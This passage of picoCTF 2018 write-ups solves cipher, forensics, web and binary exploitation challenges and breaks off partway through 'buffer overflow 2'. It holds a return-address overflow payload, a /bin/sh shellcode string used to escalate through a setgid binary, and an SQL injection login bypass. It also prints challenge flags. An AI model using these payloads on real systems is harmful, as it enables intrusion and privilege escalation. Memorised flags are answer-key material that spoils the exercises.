Yse lncsz bplr-izcarpnzjo dkxnroueius zf g uzlefwpnfmeznn cousex bls ltcmaqltki my Rjzn Hfetoxea Gqmexyt axtfnj 1467 fyd axpd g rptgq nivmpr jndc zt dwoynh hjewkjy cousex fwpnfmezx. Llhjcto'x dyyypm uswy ybttimpd gqahggpty fqtkw debjcar bzrjx, lnj xhizhsey bprk nydohltki my cwttosr tnj wezypr uk ehk hzrxjdpusoitl llvmlbky tn zmp cousexypxz. Qltkw, tn 1508, Ptsatsps Zwttnjxiax, tn nnd wuwv Puqtgxfahof, tnbjytki ehk ylbaql rkhea, g hciznnar hzmvtyety zf zmp Volpnkwp cousex. Yse Zwttnjxiax nivmpr, nthebjc, otqj pxtgijjo a vwzgxjdsoap, roltd, gso pxjoiiylbrj dyyypm ltc scnecnnyg hjewkjy cousex fwpnfmezx.

Hhgy ts tth ktthn gx ehk Atgksprk htpnjc wgx zroltngqwy jjdcxnmej gj Gotgat Gltzndtg Gplrfdo os siy 1553 gzoq Ql cokca jjw. Sol. Riualn Hfetoxea Hjwlgxz. Hk gfiry fpus ehk ylbaql rkhea uk Eroysesnfs, hze ajipd g wppkfeitl "noaseexxtgt" (f vee) yz scnecn htpnjc arusahjes kapre qptzjc. Wnjcegx Llhjcto fyd Zwttnjxiax fski l focpd vfetkwy ol xfbyyttaytotx, Merqlsu'x dcnjxe sjlnz yse vfetkwy ol xfbyyttaytotx noaqo bk jlsoqj cnfygki disuwy hd derjntosr a tjh kkd. Veex hexj eyvnnarqj sosrlk bzrjx zr ymzrz usrgxps, qszwt yz buys pgweikx tn gigathp, ox ycatxxizypd "uze ol glnj" fwotl hizm ehk rpsyfre. Hjwlgxz's sjehui ehax cewztrki dtxtyg yjnuxney ltc otqj tnj vee. Fd iz nd rkqltoaple jlse yz skhfrk f dhuwe kkd ahxfde, yfj be f arkatoax aroaltk hznbjcsgytot, Gplrfdo'y xjszjx wgx notxtdkwlbrd xoxj deizce.

Hqliyj oe Bnretjce vzmloxsej mts jjdcxnatoty ol f disnwax gft yycotlpr gzeoqjj cousex gpfuwp tnj noawe ol Mpnxd TIO tq Fxfyck, ny 1586. Lgypr, os ehk 19ys ckseuxd, ehk nyvkseius zf Hjwlgxz's inahkw hay rtsgyerogftki eo Bnretjce. Jfgij Plht ny hox moup Ehk Hzdkgcegppry qlmkseej yse sndazycihzeius my yfjitl ehgy siyyzre mld "olyoxjo tnnd isuzrzfyt itytxnmuznzn gso itxeegi yasjo a xjrrkxdibj lnj jwesjytgwj cousex kzr nnx [Volpnkwp] tntfgn mp hgi yozmtnm yz du bttn ne". pohzCZK{g1gt3w3_n1pn3wd_ax3s7_maj_hof08hk0}

Ehk Atgksprk htpnjc ggnyej f cevzeaznzn ltc bknyg kcnevytotfwle xerusr. Nuypd gzehuw lnj rltnjxaznnigs Nhgwwey Qftcnogk Izdmxzn (Rjhiy Hlrxtwl) ifwlki ehk Atgksprk htpnjc utgcegplbrj tn nnd 1868 pojne "Zmp Arusahje Cousex" ny a imtljwpn'y rlggetnk. Ny 1917, Sinpnznqii Fxexnnat ipsiwtbki ehk Atgksprk htpnjc ay "nxpuxdihqp ol ycatxwaznzn". Zmts xjauzfeius hay szt jjdexapd. Imlrrjd Bggmamj ts qszwt yz hgap bxtvet f gaxnlnz tq tnj nivmpr gx paxqj ay 1854; mzwkapr, nj oijs'e pagwiym siy bzrq. Plsoxvi kseixjwy hwzkk yse inahkw lnj ufbrndhki ehk ypcnstqaj tn zmp 19tn hpnzzcy. Kapn hjqoxj ehox, ehuzrh, ytxe yptlrjo cxdatgsllexes itflj tncgxtotfwle gcegp ehk htpnjc it yse 16zm netyfre.

Hcyvyzgxfahoh dloip raqp uyjo ay f narhflgytot ftd hd ehk Xhiyx Lrsd mezbpet 1914 fyd 1940.
Zmp Volpnkwp cousex nd soralk jyoals tu gp a lnplj htpnjc il ne iy zdej ny cusuutheius hizm nivmpr jndky. Yse Ityfkiprgyp Szfeey tq Asjciif, qox jiasuwe, axpd g gcayx nivmpr jndk zt tmvqpmkse tnj Gimjyexj nivmpr jzcitl ehk Fxexnnat Htvoq Hax. Yse Ityfkiprghj's sjdsglps cjce lfc fxtx skhcez fyd zmp Utnzn xjrurfcle hcaippd zmpix rpsyfrey. Ysruzrhuze tnj hax, yse Ityfkiprgyp lkfoexxsiv ucisfcird cernpd auzn zmcek ppy vmcayjd, "Mgsnhkxeex Gwulk", "Nosuwezj Giiyzre" fyd, gx ehk blr ifxe zt l crtde, "Itxe Xjerogftoty".

Goqmexy Gexslm zwtej yz rkulix yse hwzkks nivmpr (iwpaznyg zmp Vkwyas–Atgksprk htpnjc it 1918), gft, tt xazypr cmlt nj oij, yse inahkw hay xeirq gursprggwe zt nreueatfwyynd. Vkwyas'x hoxp, socjgex, jgetyfarqj lki eo zmp otj-eisj aaj, f ehktceznnarqj utgcegplbrj nivmpr.
```

It is encrypted and we see something that clearly will be the flag. With *blaise* in the title, this has got to be Vigenere ciper.

We use [this site]() to find the key, which turns out to be `FLAG`. The decrypted message is:

```
The first well-documented description of a polyalphabetic cipher was formulated by Leon Battista Alberti around 1467 and used a metal cipher disc to switch between cipher alphabets. Alberti's system only switched alphabets after several words, and switches were indicated by writing the letter of the corresponding alphabet in the ciphertext. Later, in 1508, Johannes Trithemius, in his work Poligraphia, invented the tabula recta, a critical component of the Vigenere cipher. The Trithemius cipher, however, only provided a progressive, rigid, and predictable system for switching between cipher alphabets.

What is now known as the Vigenere cipher was originally described by Giovan Battista Bellaso in his 1553 book La cifra del. Sig. Giovan Battista Bellaso. He built upon the tabula recta of Trithemius, but added a repeating "countersign" (a key) to switch cipher alphabets every letter. Whereas Alberti and Trithemius used a fixed pattern of substitutions, Bellaso's scheme meant the pattern of substitutions could be easily changed simply by selecting a new key. Keys were typically single words or short phrases, known to both parties in advance, or transmitted "out of band" along with the message. Bellaso's method thus required strong security for only the key. As it is relatively easy to secure a short key phrase, say by a previous private conversation, Bellaso's system was considerably more secure.

Blaise de Vigenere published his description of a similar but stronger autokey cipher before the court of Henry III of France, in 1586. Later, in the 19th century, the invention of Bellaso's cipher was misattributed to Vigenere. David Kahn in his book The Codebreakers lamented the misattribution by saying that history had "ignored this important contribution and instead named a regressive and elementary cipher for him [Vigenere] though he had nothing to do with it". picoCTF{v1gn3r3_c1ph3rs_ar3n7_bad_cdf08bf0}

The Vigenere cipher gained a reputation for being exceptionally strong. Noted author and mathematician Charles Lutwidge Dodgson (Lewis Carroll) called the Vigenere cipher unbreakable in his 1868 piece "The Alphabet Cipher" in a children's magazine. In 1917, Scientific American described the Vigenere cipher as "impossible of translation". This reputation was not deserved. Charles Babbage is known to have broken a variant of the cipher as early as 1854; however, he didn't publish his work. Kasiski entirely broke the cipher and published the technique in the 19th century. Even before this, though, some skilled cryptanalysts could occasionally break the cipher in the 16th century.

Cryptographic slide rule used as a calculation aid by the Swiss Army between 1914 and 1940.
The Vigenere cipher is simple enough to be a field cipher if it is used in conjunction with cipher disks. The Confederate States of America, for example, used a brass cipher disk to implement the Vigenere cipher during the American Civil War. The Confederacy's messages were far from secret and the Union regularly cracked their messages. Throughout the war, the Confederate leadership primarily relied upon three key phrases, "Manchester Bluff", "Complete Victory" and, as the war came to a close, "Come Retribution".

Gilbert Vernam tried to repair the broken cipher (creating the Vernam–Vigenere cipher in 1918), but, no matter what he did, the cipher was still vulnerable to cryptanalysis. Vernam's work, however, eventually led to the one-time pad, a theoretically unbreakable cipher.
```

**Flag**
```
picoCTF{v1gn3r3_c1ph3rs_ar3n7_bad_cdf08bf0}
```

## Binary Exploitation 200: buffer overflow 1

**Challenge**
Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba on the shell server. [Source.](writeupfiles/vuln-buff-overflow-1.c)

**Solution**
Using an entirely manual binary search we find out which bytes we actually control:
```
hxr@pico-2018-shell-1:/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba$ ./vuln
Please enter your string:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab
Okay, time to return... Fingers Crossed... Jumping to 0x62616161
Segmentation fault
...
hxr@pico-2018-shell-1:/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba$ ./vuln
Please enter your string:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadcba
Okay, time to return... Fingers Crossed... Jumping to 0x61626364
Segmentation fault
```

Ok, good. Now we have control of the return, we just need to point it to wherever the flag is printed? I guess that's the win function

```
$ objdump -x -d vuln
....

080485cb <win>:
 80485cb:       55                      push   %ebp
 80485cc:       89 e5                   mov    %esp,%ebp
 80485ce:       83 ec 58                sub    $0x58,%esp
 80485d1:       83 ec 08                sub    $0x8,%esp
 80485d4:       68 50 87 04 08          push   $0x8048750
 80485d9:       68 52 87 04 08          push   $0x8048752
 80485de:       e8 bd fe ff ff          call   80484a0 <fopen@plt>
 80485e3:       83 c4 10                add    $0x10,%esp
 80485e6:       89 45 f4                mov    %eax,-0xc(%ebp)
 80485e9:       83 7d f4 00             cmpl   $0x0,-0xc(%ebp)
 80485ed:       75 1a                   jne    8048609 <win+0x3e>
 80485ef:       83 ec 0c                sub    $0xc,%esp
...
```

So we want to return to `0x080485cb`

First I experimented with some known characters in order to figure out the byte
mapping because little endian doesn't work with `xxd -r`

```
$ echo -n 'ÏÖ' | xxd -e # Little endian
00000000: 96c38fc3                             ....
$ echo -n 'ÏÖ' | xxd    # Big endian
00000000: c38f c396                                ....
$ # 080485cb < our target string
$ echo '00000000: cb85 0408' | xxd -r
$ # And the mapping is a bunch of unprintable characters.
```

This needs to be prefixed with a known length of buffer so we'll just construct something xxd is happy with:

```
00000000: 61616161 61616161 61616161 61616161
00000010: 61616161 61616161 61616161 61616161
00000020: 61616161 61616161 61616161 cb850408
```

And then run this on the server:

```
$ echo '00000000: 61616161 61616161 61616161 61616161
00000010: 61616161 61616161 61616161 61616161
00000020: 61616161 61616161 61616161 cb850408' | xxd -r | ./vuln
Please enter your string:
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault
```

It works!!!

**Flag**

```
picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault
```

## Cryptography 200: hertz 2

**Challenge**

This flag has been encrypted with some kind of cipher, can you decrypt it? Connect with `nc 2018shell1.picoctf.com 12521`.

**Solution**

When we connect we are given a ciphertext

```
Yln mvsfi ugbxe abj tvkow bcng yln qrzd pbh. S fre'y unqsncn ylsw sw wvfl re nrwd ogbuqnk se Osfb. Sy'w rqkbwy rw sa S wbqcnp r ogbuqnk rqgnrpd! Bird, asen. Lngn'w yln aqrh: osfbFYA{wvuwysyvysbe_fsolngw_rgn_ybb_nrwd_whwhyeosub}
```

we input this to https://quipqiup.com/ and it decodes to

```
The quick brown fox jumps over the lazy dog. I can't believe this is such an easy problem in Pico. It's almost as if I solved a problem already! Okay, fine. Here's the flag: picoCTF{substitution_ciphers_are_too_easy_sgsgtnpibo}
```


**Flag**
```
picoCTF{substitution_ciphers_are_too_easy_sgsgtnpibo}
```


## Binary Exploitation 200: leak-me

**Challenge**

Can you authenticate to [this service](writeupfiles/auth) and get the flag? Connect with nc 2018shell1.picoctf.com 31045.

[Source](writeupfiles)

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  // real pw:
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];

  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));

  printf("What is your name?\n");

  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';

  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}

```

If we overflow the buffer for the `name` variable, we can get the flag

```
$ python -c 'print("a" * 300)' | nc 2018shell1.picoctf.com 31045
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,a_reAllY_s3cuRe_p4s$word_d98e8d

Incorrect Password!
```

so it output the password for this, we connect again and use the password to get our flag:

```
$ echo -e 'bla\na_reAllY_s3cuRe_p4s$word_d98e8d' | 2018shell1.picoctf.com 31045
What is your name?
bla
Hello bla,
Please Enter the Password.
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
```


**Solution**

**Flag**
```
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}
```


## Forensics 200: now you don't

**Challenge**

We heard that there is something hidden in this picture. Can you find it?


**Solution**

We extract the LSB of each of the colour channels using [this script](https://github.com/shiltemann/CTF-writeups-public/blob/master/_resources/code/stegano/extractlsb.py)
and find the flag in the red channel:

```bash
$ python3 extractlsb.py -i nowYouDont.png
```

This script outputs 3 black-and-white images, each signifying the least significant bit of each of the 3 RGB channels.

the outputfile for the red channel, `nowYouDont_lsb_r.png`, contained the flag:




**Flag**
```
picoCTF{n0w_y0u_533_m3}
```

## Binary Exploitation 200: shellcode

**Challenge**

This [program](writeupfiles/vuln2) executes any input you give it. Can you get a shell?

You can find the program in `/problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed` on the shell server.

[Source](writeupfiles/vuln2.c)

**Solution**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter a string!");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();

  return 0;
}
```

This code executes whatever machine instructions we give it.

We connect to the remote shell and have a look:

```bash
$ cd /problems/shellcode_0_48532ce5a1829a772b64e4da6fa58eed
$ ll
ll
total 776
drwxr-xr-x   2 root       root          4096 Sep 28 08:11 ./
drwxr-x--x 576 root       root         53248 Sep 30 03:45 ../
-r--r-----   1 hacksports shellcode_0     34 Sep 28 08:11 flag.txt
-rwxr-sr-x   1 hacksports shellcode_0 725408 Sep 28 08:11 vuln*
-rw-rw-r--   1 hacksports hacksports     562 Sep 28 08:11 vuln.c
```

So we want to read the file `flag.txt`, but do not have the right permissions.
Because the executable `vuln` has the `sgid bit` set, we need to get it to
read the contents for us.

Since the program executes any assembly code we give it, we can make it spawn us a
shell, retaining its escalated permissions, so that we can read the flag. There are
many online collections of such shellcode. We find a shellcode on
[Shellstorm](http://shell-storm.org/shellcode/).

We first need to find the architecture of the remote machine

```
$ uname -a
Linux pico-2018-shell-1 4.4.0-1067-aws #77-Ubuntu SMP Mon Aug 27 13:22:03 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Okay, it's `Linux x86_64`. We find a shellcode on shellstorm in that category, we use
[this one](http://shell-storm.org/shellcode/files/shellcode-690.php) but any executing
a call to `/bin/sh` will do.


We write the shellcode to a file and then use the following syntax to execute it:

```
$ cat ~/shellcode.txt - | ./vuln
```

to keep the shell waiting for stdin or else it will close immediately.

Here we go:

```bash
$ python -c "print('\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xf
e\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81')" > ~
/shellcode.txt

$ cat ~/shellcode.txt - | ./vuln
Enter a string!
1V_ȈF22i0tii0cjo΁
Thanks! Executing now...

ls
flag.txt  vuln  vuln.c
cat flag.txt
picoCTF{shellc0de_w00h00_9ee0edd0}
```


**Flag**
```
picoCTF{shellc0de_w00h00_9ee0edd0}
```


## General Skills 200: what base is this?

**Challenge**


To be successful on your mission, you must be able read data represented in different ways, such as hexadecimal or binary. Can you get the flag from this program to prove you are ready? Connect with `nc 2018shell1.picoctf.com 14390`.

**Solution**

we connect and are asked to convert some numbers to ascii:

```bash
$ nc 2018shell1.picoctf.com 14390                                                                                                  [07-10-18 18:39:56]
We are going to start at the very beginning and make sure you understand how data is stored.
turtle
Please give me the 01110100 01110101 01110010 01110100 01101100 01100101 as a word.
To make things interesting, you have 30 seconds.
Input:
turtle
Please give me the 636f756368 as a word.
Input:
couch
Please give me the  154 141 155 160 160 157 163 164 as a word.
Input:
lamppost
You got it! You're super quick!
Flag: picoCTF{delusions_about_finding_values_602fd280}
```


**Flag**
```
picoCTF{delusions_about_finding_values_602fd280}
```


## General Skills: 200: you can't see me

**Challenge**
'...reading transmission... Y.O.U. .C.A.N.'.T. .S.E.E. .M.E. ...transmission ended...' Maybe something lies in /problems/you-can-t-see-me_4_8bd1412e56df49a3c3757ebeb7ead77f.

**Solution**

```
hxr@pico-2018-shell-1:~$ ls -al /problems/you-can-t-see-me_4_8bd1412e56df49a3c3757ebeb7ead77f
total 60
drwxr-xr-x   2 root       root        4096 Sep 28 08:29 .
-rw-rw-r--   1 hacksports hacksports    57 Sep 28 08:29 .
drwxr-x--x 556 root       root       53248 Sep 28 08:29 ..
```

there's no easy way to access that

```
hxr@pico-2018-shell-1:~$ cat /problems/you-can-t-see-me_4_8bd1412e56df49a3c3757ebeb7ead77f/.*
cat: /problems/you-can-t-see-me_4_8bd1412e56df49a3c3757ebeb7ead77f/.: Is a directory
picoCTF{j0hn_c3na_paparapaaaaaaa_paparapaaaaaa_22f627d9}
cat: /problems/you-can-t-see-me_4_8bd1412e56df49a3c3757ebeb7ead77f/..: Permission denied
```

**Flag**
```
picoCTF{j0hn_c3na_paparapaaaaaaa_paparapaaaaaa_22f627d9}
```

## Web Exploitation 250: Buttons

**Challenge**
 There is a website running at http://2018shell1.picoctf.com:21579 (link). Try to see if you can push their buttons.

**Solution**
The first button is a form and the second is an `a href`. Clicking the second
link gives a message about being denied. Changing the second button to a form
(so it will POST) result in success.

**Flag**
```
picoCTF{button_button_whose_got_the_button_ed306c10}
```


## Forensics 250: Ext Super Magic

**Challenge**

We salvaged a ruined Ext SuperMagic II-class mech recently and pulled the [filesystem](writeupfiles/ext-super-magic.img) out of the black box. It looks a bit corrupted, but maybe there's something interesting in there.

You can also find it in `/problems/ext-super-magic_4_f196e59a80c3fdac37cc2f331692ef13` on the shell server.

**Solution**


```
$ file ext-super-magic.img
ext-super-magic.img: data

$ debugfs ext-super-magic.img
debugfs 1.44.1 (24-Mar-2018)
Checksum errors in superblock!  Retrying...
ext-super-magic.img: Bad magic number in super-block while opening filesystem
```

Ok, so there is a bad magic  number in the superblock. We look up what the magic
number for the superblock should be [here](https://wiki.osdev.org/Ext2#Superblock)

We need to write the value `0xef53` at bytes 56 and 57 of the superblock. It also says the superblock always
starts 1024 bytes from the start (`0x400`). So we open the .img file in a hex editor, and change the
bytes at position (`0x438`) to `0xef53` in little endian format:


Let's see if it worked:

```
$ file ext-super-magic-fixed.img
ext-super-magic-fixed.img: Linux rev 1.0 ext2 filesystem data (mounted or unclean), UUID=f2b57e6b-c9bc-4026-932f-03d8e69575db (large files)
```

whoo! it recognizes it as a valid file system, let's try to mount it:

```
$ mkdir tst
$ sudo mount ext-super-magic-fixed.img tst
```

The mounted volume contains a bunch of images, including
one named `flag.jpg` which contains our flag:


**Flag**
```
picoCTF{a7DB29eCf7dB9960f0A19Fdde9d00Af0}
```


## Forensics 250: Lying out

**Challenge**
Some odd [traffic](./writeupfiles/traffic.png) has been detected on the network, can you identify it? More info here. Connect with nc 2018shell1.picoctf.com 50875 to help us answer some questions.

**Solution**

```
You'll need to consult the file `traffic.png` to answer the following questions.
Which of these logs have significantly higher traffic than is usual for their time of day? You can see usual traffic on the attached plot. There may be multiple logs with higher than usual traffic, so answer all of them! Give your answer as a list of `log_ID` values separated by spaces. For example, if you want to answer that logs 2 and 7 are the ones with higher than usual traffic, type 2 7.
    log_ID      time  num_IPs
0        0  00:00:00     9552
1        1  02:30:00    11573
2        2  06:00:00    10381
3        3  07:00:00    11674
4        4  07:00:00    10224
5        5  07:30:00    10966
6        6  16:00:00     9685
7        7  17:45:00    15875
8        8  18:00:00    11889
9        9  19:15:00    11935
10      10  19:30:00    11191
11      11  20:30:00     9952
12      12  20:45:00     9898
13      13  22:45:00    11609
1 3 7 13
Correct!
Great job. You've earned the flag: picoCTF{w4y_0ut_ff5bd19c}
```

**Flag**
```
picoCTF{w4y_0ut_ff5bd19c}
```

### Cryptography 250: Safe RSA

**Challenge**

Now that you know about RSA can you help us decrypt [this ciphertext](writeupfiles/safe_rsa_ciphertext)?

We don't have the decryption key but something about those values looks funky..

```
N: 374159235470172130988938196520880526947952521620932362050308663243595788308583992120881359
365258949723819911758198013202644666489247987314025169670926273213367237020188587742716017314
320191350666762541039238241984934473188656610615918474673963331992408750047451253205158436452
814354564283003696666945950908549197175404580533132142111356931324330631843602412540295482841
975783884766801266552337129105407869020730226041538750535628619717708838029286366761470986056
335230171148734027536820544543251801093230809186222940806718221638845816521738601843083746103
374974120575519418797642878012234163709518203946599836959811

e: 3

ciphertext (c): 22053164139311340310464407676205419848010912163512227891805825645573287624554
227213680295313600767299722114122360729215773172647154249508230913822034354894605220946891495
95951010342662368347987862878338851038892082799389023900415351164773
```

**Solution**

since `e` is so small, and message likely much smaller than our N, we can easily compute the plaintext by taking the cube root of c:


```python
# ct = pt^3 mod N
# pt = root(ct,3)

>>> import binascii
>>> import gmpy2
>>> gmpy2.get_context().precision=200000
>>> pt = gmpy2.root(ct,3)
>>> binascii.unhexlify(hex(int(pt))[2:])
b'picoCTF{e_w4y_t00_sm411_81b6559f}'
```

[xref](http://cacr.uwaterloo.ca/techreports/2004/cacr2004-01.pdf)

**Flag**
```
picoCTF{e_w4y_t00_sm411_81b6559f}
```

### Web 250: The Vault

**Challenge**

 There is a website running at http://2018shell1.picoctf.com:64349 (link). Try to see if you can login!

**Solution**

we get the php source code

```php
<?php
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $debug = $_POST["debug"];
  $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";

  if (intval($debug)) {
    echo "<pre>";
    echo "username: ", htmlspecialchars($username), "\n";
    echo "password: ", htmlspecialchars($password), "\n";
    echo "SQL query: ", htmlspecialchars($query), "\n";
    echo "</pre>";
  }

  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
  else {
    $result = $con->query($query);
    $row = $result->fetchArray();

    if ($row) {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<h1>Login failed.</h1>";
    }
  }

?>

```

we enter anything for the username and `' or 1 --` or `' or 'x'='x` for the password to get the flag

```
Logged in!

Your flag is: picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}
```


**Flag**
```
picoCTF{w3lc0m3_t0_th3_vau1t_e4ca2258}
```

## Forensics 250: What's My Name?

**Chalenge**
 Say my name, say [my name.](./writeupfiles/myname.pcap)

**Solution**
Open the pcap file in wireshark, use `dns` as a packet filter, we look in the response section and there's a TXT record with the flag.

**Flag**
```
picoCTF{w4lt3r_wh1t3_2d6d3c6c75aa3be7f42debed8ad16e3b}
```

## General Skills 250: absolutely relative

**Challenge**

In a filesystem, everything is relative ¯\_(ツ)_/¯. Can you find a way to get a flag from this program? You can find it in /problems/absolutely-relative_1_15eb86fcf5d05ec169cc417d24e02c87 on the shell server. Source.

**Solution**

They provide the [source](./writeupfiles/absoluterelative.c) of absolutely-relative, it checks for a file named `./permission.txt` with the contents `yes`.

```
hxr@pico-2018-shell-1:~$ echo -n 'yes'  > permission.txt
hxr@pico-2018-shell-1:~$ /problems/absolutely-relative_1_15eb86fcf5d05ec169cc417d24e02c87/absolutely-relative
You have the write permissions.
picoCTF{3v3r1ng_1$_r3l3t1v3_a97be50e}
```


**Flag**
```
picoCTF{3v3r1ng_1$_r3l3t1v3_a97be50e}
```


## Reversing 250: assembly-2

**Challenge**

What does `asm2(0x7,0x28)` return? Submit the flag as a hexadecimal value (starting with `0x`).

NOTE: Your submission for this question will NOT be in the normal flag format.
Source located in the directory at `/problems/assembly-2_4_f8bfecf223768f4cac035751390ea590`.

```asm
.intel_syntax noprefix
.bits 32

.global asm2

asm2:
	push	ebp
	mov	ebp,esp
	sub	esp,0x10
	mov	eax,DWORD PTR [ebp+0xc]
	mov	DWORD PTR [ebp-0x4],eax
	mov	eax,DWORD PTR [ebp+0x8]
	mov	DWORD PTR [ebp-0x8],eax
	jmp	part_b
part_a:
	add	DWORD PTR [ebp-0x4],0x1
	add	DWORD PTR [ebp+0x8],0x76
part_b:
	cmp	DWORD PTR [ebp+0x8],0xa1de
	jle	part_a
	mov	eax,DWORD PTR [ebp-0x4]
	mov	esp,ebp
	pop	ebp
	ret
```

**Solution**

Let's manually walk through the code and write down what happens:

```asm
.intel_syntax noprefix
.bits 32

.global asm2

; call: asm2(0x7,0x28)

asm2:
	push	ebp
	mov	ebp,esp
	sub	esp,0x10
	mov	eax,DWORD PTR [ebp+0xc]     ; eax = 0x28
	mov	DWORD PTR [ebp-0x4],eax     ; var1 = 0x28
	mov	eax,DWORD PTR [ebp+0x8]     ; eax = 0x7
	mov	DWORD PTR [ebp-0x8],eax     ; var2 = 0x7
	jmp	part_b                      ; jump to part_b
part_a:
	add	DWORD PTR [ebp-0x4],0x1         ; var1 += 1
	add	DWORD PTR [ebp+0x8],0x76        ; var2 += 0x76
part_b:
	cmp	DWORD PTR [ebp+0x8],0xa1de  ; var2 > 0xa1de?  Y: return var1
	jle	part_a                      ;                 N: add x076 to var2 and 1 to var1 (part_a)
	mov	eax,DWORD PTR [ebp-0x4]     ; return var1
	mov	esp,ebp
	pop	ebp
	ret
```

so in pseudo code this is:

```python
count = 0x28
num = 0x7

while num < 0xa1de:
   count += 1
   num += 0x76

return count

# 0x28 + (0xa1de-0x7)/0x76 = 0x188

```

**Flag**
```
0x188
```


##  Binary Exploitation 250: buffer overflow 2

**Challenge**
 Alright, this time you'll need to control some arguments. Can you get the flag from this program? You can find it in /problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa on the shell server. [Source.](./writeupfiles/vuln-buff-overflow-2.c)

**Solution**
The hint suggests

> Try using gdb to print out the stack once you write to it!

Which is useful. First attempted to find out what was necessary to overwrite the return pointer and segfault, '107 * a' was just before there. Opened up gdb:

Looking at the dump of vuln, it is suggested to me that we should want to control ebp (to be `0xdeadbeefdeadcode`) + the return (to be `0x080485cb`)

```
080485cb <win>:
 ...
 804861d:       81 7d 08 ef be ad de    cmpl   $0xdeadbeef,0x8(%ebp)
 8048624:       75 1a                   jne    8048640 <win+0x75>
 8048626:       81 7d 0c de c0 ad de    cmpl   $0xdeadc0de,0xc(%ebp)
 804862d:       75 14                   jne    8048643 <win+0x78>
```

After much experimentation remembered how metasploit does it, by inserting the alphabet and mapping that back to points that are interesting to control.

```
$ gdb vuln
...
(gdb) break vuln
Breakpoint 1 at 0x804864c
(gdb) break win
Breakpoint 2 at 0x80485d1
(gdb) run
Starting program: /problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa/vuln
Please enter your string:

Breakpoint 1, 0x0804864c in vuln ()
(gdb) step
Single stepping until exit from function vuln,
which has no line number information.
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcdefghijklmnopqrstuvwxyz
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcdefghijklmnopqrstuvwxyz
Warning:
Cannot insert breakpoint 0.
Cannot access memory at address 0x73727170

0x6f6e6d6c in ?? ()
```

Ok, so in this string:

```
<snip>bcdefghijklmnopqrstuvwxyz
                \||/\||/
             0x6c-6f ||
                    ^^^^
                 0x70-73
```

